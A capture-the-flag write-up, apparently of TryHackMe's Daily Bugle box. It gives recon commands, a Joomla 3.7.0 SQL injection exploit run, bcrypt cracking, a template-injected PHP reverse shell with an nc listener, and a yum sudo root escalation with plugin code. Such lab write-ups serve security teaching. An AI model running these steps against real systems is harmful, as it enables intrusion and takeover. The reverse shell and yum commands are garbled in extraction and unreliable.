


Daily Bugle
// Overview
Daily Bugle is a Spider-Man-themed Linux box built around a vulnerable Joomla 3.7.0 install. The path runs from a version fingerprint to a public SQL injection (CVE-2017-8917), dumps the user table, cracks a bcrypt hash, and pivots through a Joomla template into a reverse shell. Root is a textbook GTFOBins yum escalation.
Flags, credentials, and puzzle answers have been redacted per TryHackMe's write-up policy.

// Reconnaissance
Port Scanning
A standard script and version scan exposes three services — SSH, HTTP, and MySQL:
$ nmap -sC -sV <target_ip> PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.2p2 Ubuntu 80/tcp open http Apache httpd 2.4.18 3306/tcp open mysql MySQL 5.5.5-10.1.31-MariaDB
Web Enumeration
Port 80 serves a news site. Directory brute-forcing with Gobuster turns up the standard Joomla footprint:
$ gobuster dir -u http://<target_ip> -w /usr/share/wordlists/dirb/common.txt /administrator /components /images /language /media /modules /plugins /templates ...
Confirming the CMS version is the next step. The canonical source is the Joomla manifest, which returns the exact core version in a plain XML file:
$ curl -s http://<target_ip>/administrator/manifests/files/joomla.xml | grep version <version>3.7.0</version>
If the manifest is blocked or missing, the language file at /language/en-GB/en-GB.xml serves as a reliable fallback — it contains a version tag that mirrors the core release.
// CVE-2017-8917 — Joomla SQL Injection
Joomla 3.7.0 ships with an unauthenticated SQL injection in the com_fields component. A quick searchsploit lookup confirms it:
$ searchsploit joomla 3.7.0 Joomla! 3.7.0 - 'com_fields' SQL Injection
Rather than hand-rolling a union query, I used Joomblah, a Python PoC that dumps the #__users table and extracts the bcrypt hash for each account. On this instance, only one user is registered:
$ python3 joomblah.py http://<target_ip> [-] Found user: jonah, hash: $2y$10$[redacted]
The hash goes straight into John with the bcrypt format and rockyou:
$ john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt [redacted] (jonah)
Bcrypt is a deliberately slow hashing algorithm — it's designed to resist brute force, so cracking takes time. On a CPU, expect 20–30 minutes. Hashcat with GPU acceleration (hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt) cuts that down significantly.
// Foothold — Joomla Template RCE
With admin credentials in hand, the fastest route to a shell is the theme editor. Under Extensions → Templates → Templates → Protostar, Joomla lets you edit PHP files directly. I dropped a PHP reverse shell into index.php:

index.php.$ nc -lvnp 4444
Then requested the file to trigger it:
http://<target_ip>/templates/protostar/index.php
A callback lands as apache — the web server user on this instance.
From there, /var/www/html/configuration.php leaks the database credentials. The password is labeled for the root database user, but password reuse is the most common lateral movement vector on these boxes. During enumeration I noticed a home directory for jjameson — worth trying the leaked credentials against that account:
$ ssh jjameson@<target_ip> jjameson@<target_ip>'s password: [redacted] jjameson@dailybugle:~$
The user flag is in jjameson's home directory:
$ cat ~/user.txt [redacted]
// Privilege Escalation — yum (GTFOBins)
A quick sudo -l shows jjameson can run yum as root without a password:
$ sudo -l
User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum
This is a known GTFOBins entry. yum loads plugins from directories it trusts, and if you control the config file, you can point it at a plugin you wrote. Plugins execute as the invoking user — root, in this case :
$ TF=$(mktemp -d) $ cat >$TF/x <$TF/y.conf <<EOF [main] enabled=1 EOF $ cat >$TF/y.py <<EOF import os import yum from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE requires_api_version='2.1' def init_hook(conduit): os.execl('/bin/sh','/bin/sh') EOF $ sudo yum -c $TF/x --enableplugin=y # id uid=0(root) gid=0(root) groups=0(root)
From the root shell, the final flag:
# cat /root/root.txt [redacted]
yum honors a custom plugin path and config path via -c. The plugin's init_hook runs during yum's initialization, and since we invoked yum through sudo, that code executes as root. This is a textbook example of why sudo -l should be one of the first post-foothold checks.
// Verdict
Daily Bugle is a clean introduction to the "fingerprint → public exploit → crack → pivot → GTFOBins" chain that shows up constantly on easy Linux boxes. The Joomla SQLi is a one-command win, but the interesting parts are the template RCE and the credential reuse between configuration.php and SSH. The yum privesc is a good reminder to run sudo -l before anything else — it's a two-minute check that shortcuts a lot of guesswork.
→ 7/10 — recommended as a first "real" web-to-root box. The SQLi step is trivial, so the learning value is concentrated in the pivot and privesc.